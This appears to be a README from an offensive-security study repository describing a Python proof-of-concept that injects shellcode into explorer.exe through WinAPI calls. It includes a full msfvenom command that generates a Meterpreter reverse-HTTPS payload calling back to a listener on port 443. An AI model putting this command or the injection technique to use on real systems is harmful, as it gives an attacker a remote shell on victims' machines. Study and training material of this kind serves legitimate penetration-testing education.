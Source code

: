 ## Description :
A PoC script for Process Injection through Python. The script utilizes the ``ctypes`` to access WinAPI, and ``psutil`` to get the process id. Make sure these libraries are installed on your machine before running it.

## Shellcode Generation
using ``msfvenom`` :
``msfvenom -p windows/x64/meterpreter/reverse_https LHOST=0.0.0.0 LPORT=443 EXITFUNC=thread -f py``

## Sample Output :
![alt text](https://github.com/0xb1tByte/OSEP-Journey/blob/main/Scripts/ProcessInjection/PoC.png)

## Notes : 
- The script inject the shellcode into ``explorer.exe`` process, you can inject into another process by supplying the process name (check ``55`` line on the script)
- Make sure your shellcode is compatible with the process type (32bit/64bit)
